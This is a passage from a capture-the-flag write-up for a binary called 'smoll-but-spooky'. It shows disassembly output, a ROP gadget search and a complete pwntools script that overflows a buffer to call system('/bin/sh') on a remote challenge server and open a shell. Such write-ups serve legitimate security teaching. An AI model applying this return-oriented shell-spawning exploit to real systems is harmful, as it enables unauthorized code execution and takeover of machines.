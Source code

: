 ```
0000000000400550 t register_tm_clones
                 U system@@GLIBC_2.2.5
```

And binsh happens to store the string "/bin/sh".
```
root@d514c19eb5eb:/ctf# objdump -S ./smoll-but-spooky -M intel -sj .data
...[SNIP]...
0000000000601048 <binsh>:
  601048:       2f 62 69 6e 2f 73 68 00                             /bin/sh.
```

So, our goal for this challenge is to use the buffer overflow to pass binsh to `system`.

We'll need a `pop rdi` gadget to point `rdi` at the address of binsh.

```
root@d514c19eb5eb:/ctf# ROPgadget --binary ./smoll-but-spooky | grep 'pop rdi'
0x0000000000400683 : pop rdi ; ret
```

The exploit:
```python
from pwn import *

elf = ELF("./smoll-but-spooky")
# p = elf.process()
p = remote("157.180.92.15", 31316)
context.binary = elf
# context.log_level = "debug"

offset = 24
binsh = 0x601048
system = 0x400490
pop_rdi = 0x400683
ret = 0x400479

payload = flat({
	offset: [
		pop_rdi,
		binsh,
		ret,
		system
	]
})

p.sendline(payload)
p.interactive()
```

Flag: bbctf{w4sN7_SpooKy_A7_A11_3064a678}